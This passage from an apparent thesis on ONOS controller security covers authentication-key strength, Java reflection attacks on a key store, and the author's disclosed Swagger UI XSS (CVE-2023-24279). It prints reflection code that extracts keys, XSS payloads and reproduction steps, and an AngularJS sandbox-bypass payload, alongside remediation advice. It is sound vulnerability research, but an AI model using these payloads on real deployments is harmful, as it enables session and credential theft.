as input the output of the previous method and filters the input only accepting the values for which the specified condition is true, in this case values between the ranges 58 - 64 and 91 - 96 are ignored (all symbols). \textbf{limit} limits the stream to the specified input, in this case the value is 60 so this will be the number of the outputted values. \textbf{collect} collects all the output values using a StringBuilder class and appending the values to the builder, lastly \textbf{toString} outputs a string that is the actual authentication key. The security of the Random Java object and the unpredictability of the generated values is assumed to be safe.
\begin{lstlisting}[language=Java,firstnumber=82]
int leftLimit = 48; // numeral '0'
int rightLimit = 122; // letter 'z'
int targetStringLength = 60;
Random random = new Random();

String generatedString = random.ints(leftLimit, rightLimit + 1)
        .filter(i -> (i <= 57 || i >= 65) && (i <= 90 || i >= 97))
        .limit(targetStringLength)
        .collect(StringBuilder::new, StringBuilder::appendCodePoint, StringBuilder::append)
        .toString();
\end{lstlisting}

An example of authentication key produced using this method is the following: 
\begin{lstlisting}
PQv8YmBqeGD2De557GS8mTfT1kbhzmuRwvizb3aKBnLhpB6WyYxgrkBobVWt
\end{lstlisting}

%% - math details
We can conclude that the characters used to generate the pseudorandom value are digits, uppercase and lowercase letters of the English alphabet. Since the English alphabet has 26 characters, the list of characters used to generate a key is composed of 62 values ($26 + 26 + 10$). This means that the number of all the possible authentication keys is 
\begin{align}
N(k) = 62^{60}
\end{align}

since for each iteration of the characters generation it's possible to pick a value among 62. Notice that a value like this is about 3.495436e+107 (for the number lovers more than three hundred forty-nine quattuortrigintillion). 

%% - how long does it take to guess a key
How long would it take for a malicious application to generate all possible authentication keys to launch a brute-force attack? In this scenario there are many variables that we do not consider to simplify the calculation, however it need to be emphasized that in doing so we are giving the opponent a considerable advantage. Let's consider a computer with a 4GHz processor. This means that it can complete 4 billion elementary instructions per second. Let's pretend that the processor is able to generate and compare with the key to guess 4 billion authentication keys per second (note that it doesn't work like this, we are talking about basic operations and it takes more than one basic operation to just generate a single character that compose the authentication key, plus there are other instructions to execute besides key generation). This means that by dividing the number of possible authentication keys by the number of keys generated and compared in one second we get the number of seconds needed to complete the brute-force attack.

\begin{align}
C(p) = 2^{32} \sim 4 bln
\end{align}

\begin{align}
N(k)/C(p) = 62^{60} / 2^{32} \sim 8^{97}
\end{align}

With these assumptions it would take 8.1384464e+97 seconds (around eighty untrigintillion) to generate and compare all the possible authentication keys and so complete a brute-force attack. Of course we are in a probabilistic world, so the correct key could be the first or the last one to be compared. Consider also that we gave to the attacker an incredible amount of advantage: the computation power of a single ONOS application can't take all the power available in the machine (just because the machine has other calculations on its own, but also because the network operator would notice a suspicious CPU usage), in order to produce a single pseudorandom character that compose the 60-character authentication key the CPU spends way more than a single basic operation and because the comparing takes time too. That said, even if we ignore all the advantages given to the potential attacker, the amount of time needed to generate and compare the keys produced by the attacker is considered large enough to be deemed safe.
\medskip

%% - Is the key distribution secure? Y because single controller, otherwise if multiple hosts needs encryption
Once the key has been generated it must be distributed to the various applications which use the generateKey() method to register themselves in the application key store. In the ONOS environment considered in this research activity (single ONOS controller) there is no need to add additional security methods to securely distribute the keys. Since there is a single ONOS controller the keys are distributed in the same machine without any risk of information disclosure. However, if the ONOS controller is replicated using multiple nodes there is no security issue between applications and the main ONOS node, but some security mechanisms must be implemented between ONOS main node and replicas. The communication between ONOS main node and the replicas are needed to exchange events and update the replicated data stores in order to provide a fault-tolerant system. In such scenario the data exchanged over the network must be encrypted in a secure manner (e.g. using HTTP over TLS connections) to avoid the risk of an attacker sniffing the network packets and obtaining valid application keys.

\subsection{Key Storage}

This subsection deals with security regarding authentication keys while they are stored in the data store. There are two main attack methods that can endanger data store security: Java reflection package and attacks targeting plaintext keys in RAM. We're going to evaluate the security risks and their respective defense mechanisms if available.

%% - Java reflection (https://www.oracle.com/technical-resources/articles/java/javareflection.html)
The technical article "Using Java Reflection" written by Glen McCluskey in 1998 defines the Java Reflection package using this definition\cite{javareflection}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
Reflection is a feature in the Java programming language. It allows an executing Java program to examine or "introspect" upon itself, and manipulate internal properties of the program. For example, it's possible for a Java class to obtain the names of all its members and display them.
\end{quoting}
It's an ability that not all the programming languages have, as example Pascal, C or C++ programs cannot determine the functions defined in the program at runtime.
A simple example of using the Java Reflection package is the following (taken from the mentioned technical article). This program imports the Reflection package and defines a public class called "DumpMethods". This class in the main function gets the Class information of the class named as the first argument passed as input in stdin, retrieves all the declared methods and then prints them in stdout. Note that using this method the inherited methods are not collected (use getMethods() to get also inherited methods).
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;

   public class DumpMethods {
      public static void main(String args[])
      {
         try {
            Class c = Class.forName(args[0]);
            Method m[] = c.getDeclaredMethods();
            for (int i = 0; i < m.length; i++)
            System.out.println(m[i].toString());
         }
         catch (Throwable e) {
            System.err.println(e);
         }
      }
   }
\end{lstlisting}
When the program is executed using the input "java.util.Stack", the methods defined in the input class are printed in standard output:
\begin{lstlisting}[language=Bash]
$> java DumpMethods java.util.Stack

public java.lang.Object java.util.Stack.push(java.lang.Object)
public synchronized java.lang.Object java.util.Stack.pop()
public synchronized java.lang.Object java.util.Stack.peek()
public boolean java.util.Stack.empty()
public synchronized int java.util.Stack.search(java.lang.Object)
\end{lstlisting}

%% - example of invoking private methods (code)
Even if this is a powerful technique to obtain information about a Java class, a potential attacker already knows which are the methods defined by the ApplicationKeyStore class. However there are two techniques that can be exploited in order to carry out powerful attacks against the application key store. The first method is invoking private methods of the victim class. In the following code snippet we consider that an instance of the ApplicationKeyStore called "applicationKeyStore" was defined. In the main function if an exception is not thrown, the ApplicationKeyStore class reference is found, then the input parameter is defined and finally a reference to the method getKey() is obtained. Lastly, the method getKey() is invoked with the parameter "org.onosproject.fwd" and the result is printed on standard output. Using this method a malicious application could obtain the value of the authentication key of any registered application even if the method getKey is private.
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;
import org.onosproject.security.ApplicationKeyStore;
      ...
      public static void main(String args[])
      {
         try {
            Class cls = Class.forName("ApplicationKeyStore");
            Class partypes[] = new Class[1];
            partypes[0] = String.TYPE;
            Method meth = cls.getMethod("getKey", partypes);
            Object arglist[] = new Object[1];
            arglist[0] = "org.onosproject.fwd";
            Object retobj = meth.invoke(applicationKeyStore, arglist);
            String retval = (String)retobj;
            System.out.println(retval);
         }
         catch (Throwable e) {
            System.err.println(e);
         }
      }
   }
\end{lstlisting}

%% - example of changing private fields (code)
The second technique is to accessing directly the private fields. As in the previous snippet we consider that an instance of the ApplicationKeyStore called "applicationKeyStore" was defined. The lines 7 and 8 defines the Class and the Field object (recall that the code is not a secret even for the attacker and so they know the private field names), finally the value of the private field is obtained. Here an attacker can easily obtain access to the hashmap holding the values for the application authentication and so it's an extremely powerful attack. Notice that here the attacker obtain access to the whole data store without even have to guess the application names.
\begin{lstlisting}[language=Java]
import java.lang.reflect.*;
import org.onosproject.security.ApplicationKeyStore;
   ...
   public static void main(String args[])
   {
      try {
         Class cls = Class.forName("ApplicationKeyStore");
         Field fld = cls.getField("keyStore");
         System.out.println("Key Store = " + applicationKeyStore.keyStore);
      } 
      catch (Throwable e) {
         System.err.println(e);
      }
   }
\end{lstlisting}

The Reflection package is a powerful method for testing Java code and access at runtime even private fields to have a better overview of what is happening in the program. However, when it comes to security it puts at big risk the whole environment. That's why the security community suggests to disable the import of this package in production environments. This can be done by using a Java SecurityManager class and a robust security policy. The SecurityManager is a class that checks at runtime if some unsafe operations are being done and prevent them to be executed. The Reflection package is already included as "forbidden" in the security policy file called "java.security" in ONOS default configuration (even if the file is outdated now). When Security-Mode ONOS is used, the SecurityManager and its associated policy is activated too. When an application tries to import the Reflection package, an exception is thrown and the access is denied. This completely removes this security issue.
\begin{lstlisting}[language=Java]
@Override
public void checkPackageAccess(String pkg){
    if (pkg.startsWith("java.lang.reflect")){
        throw new SecurityException("Reflection is not allowed!");
    }
}
\end{lstlisting}

%% - RAM attacks
Another security issue is the fact that authentication keys are stored in a clear-text hashmap in RAM memory. A malicious application could read the data in RAM and find the authentication keys. It is not an easy attack to carry out, but the risk must still be taken into consideration. In this case it is up to the network operator to decide what to do. One could either accept the risk or equip the system with an Hardware Security Module, so a physical computing device that safeguards and manages secrets.
\medskip

%% - What about key security from legit apps perspective? Idc
The last consideration is about legitimate applications and how to write an application in a secure way. First of all the good coding and basic security practices should be followed (more generally in any type of program). After that, both functional and security tests must be carried out. An application that exposes some methods to interact with the outside must pay close attention to security because it could be affected by security vulnerabilities. If this happens, an attacker could completely take over the application. In this case, an attacker could use the vulnerable application and its respective authentication credentials to use the ONOS API on behalf of the vulnerable application.

\clearpage


\section{Vulnerability research}

A good chunk of the time spent researching a way to detect potential Cross App Poisoning attacks in ONOS was also spent researching vulnerabilities and security issues. During this period were found some vulnerabilities that had never been reported by anyone and that are also present in the latest released version of ONOS (v2.7.0 at the time of writing). Many test methodologies have been used such as static analysis, searching for functions that could lead to security problems, dependency analysis, black-box testing. Some bugs or problems have successfully led to security problems exploitable by an attacker, while others have not led to an actual reproducible attack, but still may be exploited in certain situations or some other researcher may find an effective way to use them in an attack.

\subsection{CVE-2023-24279}

Various methods have been used to search for vulnerabilities within ONOS. One of them was searching for keywords within the ONOS source code using the advanced search provided by GitHub. While reviewing the code a path looked interesting: /onos/v1/docs. This path is not even documented in the official ONOS documentation. The code that generates the content for this path is in the onos/web/api/src/main/resources/docs/ folder. It is not Java code, but HTML, Javascript files and other multimedia resources. Looking at GitHub commits the last change is dated February 8 2017 with the message "Bump swagger ui from 2.2.5 to 2.2.10". Actually in the docs folder there are more than a few files referencing SwaggerUI. Simply said, SwaggerUI allows you to view the API documentation in a browser in a smart way and with many features (for example, compose complex requests with various parameters and test their operation by also reading the response from the server). So while searching for vulnerabilities in SwaggerUI version v2.2.10 a known vulnerability was found.

The vulnerability research led to the discovery of CVE-2023-24279, categorized under the Weakness type "Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')". The MITRE organization that is in charge of CVEs management was contacted and a new ID requested. The version 1.9.0 was released in February 2017, this means ONOS was vulnerable to this attack for six years and no one reported the vulnerability. The NIST (National Institute of Standards and Technology) organization in the US National Vulnerability Database describes the vulnerability in this way \cite{CVE-2023-24279}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.
\end{quoting}
An OpenAPI configuration file is required to create an API documentation page with Swagger. The OpenAPI Specification (previously known as the Swagger Specification) is a specification for machine-readable description of web services. There are two methods for creating this specification: either statically by creating a file that respects certain rules (typically in JSON or YAML format) or dynamically generating the configuration file through a programming language. The specification file doesn't only specify the APIs, their inputs and outputs but a lot of surrounding information can be set like developers contacts, authentication methods ad other settings \cite{openapi}. ONOS uses the second method and the API specification file is created at runtime when ONOS starts. The Java file onos/web/api/src/main/java/org/onosproject/rest/resources
/ApiDocResource.java takes care of serving the web content to the path onos/v1/docs. Once you have accessed this resource, you can read the documentation relating to the exposed APIs and test their functionalities. Actually there is a third method to make Swagger read the configuration file and that is through a GET parameter in the URL. If the "url" parameter is specified, Swagger reads the parameter content and makes an HTTP GET request to that value: if the HTTP response respects the rules of a compliant configuration file, it interprets the new instructions and shows new content based on the information it just read.
The security issue was notified to the development team via the GitHub issue "XSS Vulnerability with Swagger UI v3" (swagger-api/swagger-ui/issues/3847) in 2017. Specifically, in the configuration file version 2.0 it is possible to enter details that do not specifically concern the APIs or their functioning, such as information on how to contact the developers. These fields are read by Swagger and used to build the web page that the user will then view. The problem lies in the fact that in the "url" field under the "contact" subsection of the "info" section it is possible to insert Javascript code which will then be executed in the user's browser (now a victim). Although many security measures have been implemented to avoid Cross Site Scripting attacks, Swagger does not sanitize inputs that use the "javascript:" protocol, so effectively if the url is formatted as "javascript:alert()", when the user clicks on the link to contact developers will not be redirected to a contact page but that Javascript code will be executed. The following snippet is an example of a payload that can be used in the attack.
\begin{lstlisting}
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "ottavianelli.1756005@studenti.uniroma1.it"
    },
  },
}
\end{lstlisting}

The malicious configuration file can be also generated using YAML language.
\begin{lstlisting}
swagger: "2.0",
info: 
  title: "Swagger UI v2.2.10 XSS POC",
  description: "Swagger UI v2.2.10 XSS POC"
  version: "1.0.100" 
  contact: 
    name: "edoardottt",
    url: "javascript:alert(document.cookie)",
    email: "ottavianelli.1756005@studenti.uniroma1.it"
\end{lstlisting}

In order to reproduce the vulnerability:
\begin{itemize}
    \item Make sure ONOS is up and running
    \item Craft a malicious configuration file containing the payload for the attack
    \item Generate the final URL that should be visited by the victim (http://ONOS-IP:8181\\/onos/v1/docs/?url=URL-PAYLOAD-FILE (URL-PAYLOAD-FILE is the URL pointing to the file containing the payload)
    \item Deliver the final URL to the victim
    \item If the victim clicks on the link the Javascript payload will be executed
\end{itemize}

There are three types of Cross Site Scripting attacks:
\begin{itemize}
    \item \texttt{DOM based}: The vulnerability lies in the frontend code of the web service, when the malicious payload is injected the payload is executed in the victim's browser.
    \item \texttt{Reflected}: The vulnerability lies in the backend code of the web service, when the malicious payload is injected a web request is made to the server and the victim's browser renders the resulting web page.
    \item \texttt{Stored}: The vulnerability lies in the backend code of the web service, a malicious payload is stored in the backend and the web page is built already with the payload inside.
\end{itemize}

In general stored Cross Site Scripting attacks are the most profitable for attackers because they don't require user interaction, however it also depends on the web page settings (cookies, Content Security Policy, information on the vulnerable web page...). The CVE-2023-24279 vulnerability is a DOM based Cross Site Scripting attack. In this case the victim must click on the URL crafted by the attacker and on the link in which the attacker put the malicious payload (there are multiple injection points).
\medskip

What could an attacker achieve by exploiting this vulnerability? The most valuable item for an attacker would be authentication cookies. If the attacker were able to collect (and this is usually the first thought of an attacker) the authentication cookies he could use the web page as if they were the victim (even better if the victim is the system administrator). Unfortunately for the attacker but fortunately for all non-malicious users, session cookies are protected with the HTTPONLY flag. This flag is a value that if set to true prevents cookies from being read via Javascript code but only via legitimate HTTP connections. One viable attack is to use phishing to trick the victim. For example, an attacker could create a payload that after a certain number of seconds changes the content of the page and displays an error message stating that the session has expired and the login credentials must be re-entered. Obviously the authentication form is created by the attacker and instead of being sent to the ONOS server they will be sent to the attacker's server. It's up to the attacker's ability to make the error message, the fake login page and the whole process look natural so that the credibility level rises and the attack is successfully carried out. In this scenario the attacker receives the access credentials to the web user interface and the ONOS shell via SSH. Another attack that can be implemented in this scenario is the use of a keylogger. A keylogger is a software that records what the victim types with the keyboard and sends it to the attacker's server. If a little social engineering is used here as well, it is possible that the attacker receives valuable information. For example an attacker could create an OpenAPI configuration file that defines several real existing ONOS APIs and create some modified APIs instead. For example, an API that could trick the victim is an endpoint that takes the current password and a new password as input to change the user's password. When the victim will try this API in the Swagger UI, the values inputted by the victim will be sent to the attacker's server (notice that the base server IP address must be changed in the OpenAPI configuration file). In this case as in the previous one the attacker receives the access credentials to the web user interface and the ONOS shell via SSH.
\medskip

In general, the obvious remediation is to update the vulnerable dependency to the patched version. In this case the problem is that the version used is so outdated that even the patched version is itself vulnerable to other types of attacks. In this case the best solution is update to the latest version available (4.18.2 at the time of writing). One tool that could help in dependency management is Dependabot provided by GitHub. This tool automatically scans project's dependencies and notifies maintainers if a new version of a dependency exists. Then it is up to the maintainers to understand if it makes sense to effectively update the dependency (a security problem has been solved as in this case), or the new version could have some breaking changes and therefore break some functionality.

\subsection{Security issues}
%% - methodology used
This subsection includes security issues that have not (yet) been assigned a CVE identification number, but which an attacker can still use to carry out attacks. The methodologies used to search for potential vulnerabilities are the same as described above.

The Swagger version used in ONOS is vulnerable to another DOM based Cross Site Scripting attack. In particular, another type of payload in a field of the configuration file can be used to carry out an attack. In this case, the interactions that the victim must carry out are different too. As in the previous attack, the path /onos/v1/docs accepts the HTTP GET parameter named "url". The input URL leads to a resource which responds with a configuration file and an OAuth configuration system for authorizing entities to access certain resources can be used (in this case, the second version of OAuth was used, OAuth2.0). It should be noted that the official OAuth documentation reiterates that it is an authorization and not an authentication protocol, this means that the identity of the entity requesting the resource is not verified but only if the entity has the necessary authorizations to access it \cite{oauth}. From the official OAuth website:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
OAuth 2.0, which stands for “Open Authorization”, is a standard designed to allow a website or application to access resources hosted by other web apps on behalf of a user. [...]
OAuth 2.0 is an authorization protocol and NOT an authentication protocol. As such, it is designed primarily as a means of granting access to a set of resources, for example, remote APIs or user data.
\end{quoting}

The malicious configuration file can be crafted as follows. The first line defines the version of the Swagger specification used (in this case 2.0). From the second to the fifth line, some context information is defined such as the title of the API documentation page, the description and the version of the APIs (these fields can be arbitrary strings). Line 6 defines the hostname that serves the APIs, line 7 the base path and line 8 the various protocols that can be used. From line 11 onwards we have the actual configuration of the OAuth authorization protocol. The type (in this case the second version) and the supported authorization method (in this case a security token) are defined. The "authorizationUrl" field is actually the vulnerable field where the payload must be placed in order to carry out the attack. As in the previous one, this field is used to build the page that the victim will view; in particular it is inserted in the href attribute of an anchor tag (simply called a clickable link). Also in this case many methods of Cross Site Scripting attacks prevention have been used but the Javascript protocol "javascript:" is not taken into consideration. By doing so it is possible to insert a payload that uses this protocol and when the victim clicks on the link the Javascript code inserted in the link will be executed in the victim's browser. The tokenUrl field is instead used to specify the URL to which the entity requesting the authorization must make a request to obtain the authorization token. Finally, the scopes field defines the various scopes of the authorization token (read, write or admin) with their respective description.
\begin{lstlisting}
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
\end{lstlisting}

In order to reproduce the vulnerability:
\begin{itemize}
    \item Make sure ONOS is up and running
    \item Craft a malicious configuration file containing the payload for the attack
    \item Generate the final URL that should be visited by the victim (http://ONOS-IP:8181\\/onos/v1/docs/?url=URL-PAYLOAD-FILE (URL-PAYLOAD-FILE is the URL pointing to the file containing the payload)
    \item Deliver the final URL to the victim
    \item Differently from the web page the victim sees in the previous attack, in this case on the upper right corner of the page there is an "Authorize" button. The victim must click on this button and a new window appears
    \item The windows contains authorization information and a way to authorize the victim (using OAuth protocol) in order to access the protected resources. The victim must choose at least one of the scope options listed in the window (read, write or admin) and the click on the button "Authorize".
    \item When the the victim clicks on the link the Javascript payload is executed
\end{itemize}
In this scenario, an attacker has more or less the same ways to carry out an effective attack against a victim. The web page where the malicious payload is inserted is the same as in the previous attack and therefore also here the session cookie has the HTTPONLY flag set to true (so it is not possible to obtain the session cookie to steal the victim's session via Javascript code but only over legitimate HTTP connections). The attacker could opt for the phishing method, even if slightly different from the previous one. For example they could exploit the fact that the victim has to use the OAuth authorization protocol to trick them into sending some secret information to the attacker's server. Again if the attacker gets the login credentials they can access the web user interface and the ONOS shell via SSH. The keylogger method can also be used in this case as well and the attacker would get the same information as in the previous attack.

Since the vulnerable Swagger version is the same as in the previous attack, the possible remediation can be applied in this case as well (obviously also the methods to facilitate dependency management in a safe and secure way).

%% - other things ?

\subsection{Failed attempts}
While searching for vulnerabilities various approaches and various paths were followed. As written previously, some of these led to security vulnerabilities actually exploitable by an attacker with the related possibilities of attack and their remediation. Other paths that have been studied didn't led to a working exploit but it is still worth explaining what the starting ideas were (later some researchers could benefit from these studies). 

It was already explained in chapter 2 how ONOS works and which are the components inside it. We have seen that even if ONOS environments with only one controller were considered in the study of a framework for detecting potential Cross App Poisoning attacks, it is possible to have multiple ONOS controllers in the same environment. In particular, if multiple ONOS controller nodes are used, one of these is the main node while the others are replicas. 
\begin{wrapfigure}[23]{l}{0.70\textwidth}
\caption{Event generation and delivery}
\label{fig:events}

\includegraphics[width=0.70\textwidth]{resources/Chapter-4/events.png}
\end{wrapfigure}
All the applications and the various network components interface with the main node and when there is an update in a data store of the main node these are communicated to the various replica nodes to stay up to date. This approach is useful to have a fault-tolerant network: in the event that the main node has a problem and goes in a down state or in case there is a need for maintenance and it is not possible to continue with normal operations, the main node can be voluntarily shutdown and a load distribution algorithm will elect a replica as the new main node. It's easy to understand that the more replicas there are, the more fault-tolerant the network will be, but of course the replicas need to be deployed on separate servers and so this comes at a cost. The system used to notify replica nodes are called "events". When an action that modifies a data store is performed, an event is also generated which contains all the information regarding the current state of the modified object (it can also be an inserted, removed or added). This event is sent by default to all replica nodes to update their data stores but it is also sent to all applications that have registered to receive events of that type. The figure 4.1 shows how the events generation and delivery works. When an event is generated in a data store is passed to the Delegate service and this service notifies the Event Delivery Service. The latter then shares this event both with EventListener objects both in other controllers or applications listening for specific events. From a security standpoint, this could be an important injection point.

%% - EventHostTracking app
In order to find interesting security vulnerabilities using this technique, the EventHostTracking application was implemented. This application does not differ much from the other two implemented and shown in chapter 2. The editHostStore() method is modified: an instance of the Host class and an event of the type HOST\_UPDATED with reference to the newly created host are created. The event means that an host has been updated and information about the updated host is passed as a parameter so that the event receiver can see what has been updated. Using the post() method of the EventDeliveryService class, an application can create an event and send it to all the listeners. The idea behind the attack is that ONOS implements few checks on the fields of the Host object. For example the IP and MAC addresses could contain malicious payloads and they would still be accepted.
\begin{lstlisting}[language=Java]
import org.onosproject.event.EventDeliveryService;
import org.onosproject.event.Event;
...
    @Reference(cardinality = ReferenceCardinality.MANDATORY)
    protected EventDeliveryService eventDispatcher;
...
    private void editHostStore() {
        HostId hostId = HostId.hostId("00:00:00:00:00:03/None");
        MacAddress macAddress = MacAddress.valueOf("00:00:00:00:00:03");
        DeviceId deviceId = DeviceId.deviceId("of:0000000000000004");
        PortNumber portNumber = PortNumber.portNumber((long) 1);
        HostLocation location = new HostLocation(deviceId, portNumber, (long) 1);
        IpAddress ip = IpAddress.valueOf("10.0.0.3");
        Set<IpAddress> ips = new HashSet<IpAddress>();
        ips.add(ip);
        DefaultAnnotations annotations = DefaultAnnotations.builder().build();

        Host h = new DefaultHost(ProviderId.NONE, hostId, macAddress, VlanId.NONE, location, ips, annotations);

        HostEvent e = new HostEvent(HostEvent.Type.HOST_UPDATED, h);

        eventDispatcher.post(e);
    }
\end{lstlisting}
The attack is considered a failed attempt for several reasons: (a) first of all the newly created host is not saved in the data store of the main node because usually the data store is updated first and then the event is created to notify the listeners; (b) no application is listening for this type of event and therefore the payload is not sent to any application; (c) there are no replica node data stores to upgrade. That said, it is worth emphasizing one thing: even if nothing can be done about point (a), considerations must be made regarding points (b) and (c). The test was carried out with the default applications in ONOS, but an attacker could still exploit this method with applications active in the victim's system that listen for events and perform actions based on the parameters of the events. If replica nodes are present, they will be updated; when and if the main node goes down one of the replicas would become the main node and thus the attacker would have successfully poisoned the data store.

It is difficult to understand what types of attacks an attacker could carry out since this only depends on the applications that takes action based on events. In any case to increase the security level of ONOS more accurate checks could be implemented: for example using a regular expression (accompanied by various passed tests) to validate the inputs in IP addresses, MAC addresses and other known patterns. That said, this malicious technique is a Cross Application Poisoning attack and so the proposed solution can spot the attack.
\medskip

%% - Port Mirroring possible just using locations?
In Chapter 2 two examples of working CAP attacks were presented. An idea that has been studied is to modify the second application (Impersonation Host Tracking) to achieve Port Mirroring. Port mirroring is simply the technique of duplicating traffic going through one port of a switch into another port. The idea was to use host location poisoning to duplicate the content of connections a victim received on a port into the one the attacker's compromised host was connected to. The figure 4.2 shows how the attack should work: the host H1 pings the host H2 and the connection is working fine, but the data is duplicated and sent to the port in which the compromised host H3 is connected. In this scenario the attacker can sniff all the network packets sent to the victim host H2.
%% - idea
\begin{figure}[h]
\caption{Port Mirroring}
\label{fig:mirroring}

\includegraphics[width=1.0\textwidth]{resources/Chapter-4/mirroring.png}
\centering
\end{figure}

However, it is not a viable attack using location poisoning. The problem is that when a new flow rule needs to be installed, the ONOS controller takes the primary location of the destination host and uses that value to route the traffic. So in this case only one between the victim's host port and the attacker's host port can be chosen as the primary location for host H2.

\clearpage


\section{CAP attacks targeting web applications}

%% - summary
This section explains the results obtained in attacking a web application using a Cross App Poisoning attack. This is the first time that a Cross App Poisoning attack has been used against a target that doesn't deal with networking actions. A research on web vulnerabilities was carried out for the GUI applications included by default in ONOS, but the latter did not lead to positive results. For this reason, a known and already fixed vulnerability was exploited using a previously released version of ONOS. In addition to the explanation of the actual attack, the vulnerability research methodology used, the reasons for certain choices, and the technologies (including the source code for the malicious application) used are presented.

\subsection{Background}

%% - background, never shown a CAP attack targeting web
Various Cross App Poisoning attacks have been created and explained in the literature using different applications, gadgets and payloads obtaining quite different results. However, these results are all in the networking area. For example, reducing resources (such as CPU power and memory) to a switch or host in the network, inserting a malicious flow rule, performing Denial of Service attacks by overloading switches. Also in this document the Cross App Poisoning attacks that have been presented are limited to causing damage only to the network and its correct functioning. Therefore another side activity of the research and study of a framework for the detection of Cross App Poisoning attacks was the research of a Cross App Poisoning attack that had as target a component that does not affect the correct functioning of the network. One of the first target taken into consideration was the Web environment. As we have seen previously, ONOS exposes many resources on the Web side and, moreover, vulnerable components have already been found, so it could be a good choice. In particular, ONOS in addition to the API and their related documentation system (Swagger), also serves a graphical interface to monitor what happens inside the controller and the network. The GUI is an ONOS application called "onos.onosproject.gui2" (the legacy version org.onosproject.gui also exists) and is activated by default when ONOS is started. The latter exposes its services on port 8181 and requires a login as soon as it is accessed. Once the access credentials have been entered, the home page shows a graph with the currently active network topology nodes such as switches, hosts and ports. At the top left corner there is an hamburger menu where you can choose various pages to be shown. There are pages that show information about the whole system (applications, settings, cluster nodes...) and others that show information about the network (such as active switches and hosts and their related information). Among the many possible attacks in the web environment, the Cross Site Scripting attack seems the most probable to be present given that the pages need a lot of data points to be built and some input field could be injectable. To implement such an attack, a malicious application is required which injects a payload into a data store which will then be used to build a web page (as example the EventHostTracking application that was presented in the previous section could be used). Many black-box attack tests have been carried out to find vulnerable injection points (injecting Javascript code into a data store): various applications that exploit different data stores have been implemented (Preferences, Host Tracking, Group) but none of these gave a positive result. At this point a code review of the two applications that produce the graphical interfaces has been carried out. The legacy version is based on AngularJS 1.3.5, while the gui2 application is based on Angular 10 and ES6 (aka ES2015). As written in the official Angular documentation under the section "Preventing cross-site scripting (XSS)" \cite{angular}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
To systematically block XSS bugs, Angular treats all values as untrusted by default. When a value is inserted into the DOM from a template binding, or interpolation, Angular sanitizes and escapes untrusted values. If a value was already sanitized outside of Angular and is considered safe, communicate this to Angular by marking the value as trusted.
\end{quoting}
This means that it is not effective to inject malicious Javascript code into data stores because it will be sanitized by Angular anyway. A code review was therefore carried out with particular attention to the values marked as trusted in order to find an exploitable injection point. They have all been reviewed and none of them is capable of carrying a Javascript payload that can lead to a Cross Site Scripting attack (e.g. an integer value is not suitable). Another test that has been performed is to try to use known bypass Cross Site Scripting payloads for the security method implemented in Angular. The GitHub repository "PayloadsAllTheThings" from user swisskyrepo contains a consistent list of Cross Site Scripting bypasses for different versions of Angular. The following is the payload used to test if a bypass is possible, it is written on the repository that it works from AngularJS version 1.3.3 up to 1.3.18.
\begin{lstlisting}
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
   'a'.constructor.prototype.charAt=[].join;
   $eval('x=alert(1)//'); }}
\end{lstlisting}
Even if the legacy application is built using AngularJS 1.3.5 (and so it should be possible to bypass Cross Site Scripting protection), the payload didn't work. After many attempts and no satisfactory results, it seems that the two applications are not vulnerable to Cross Site Scripting attacks.


\subsection{Attack description}

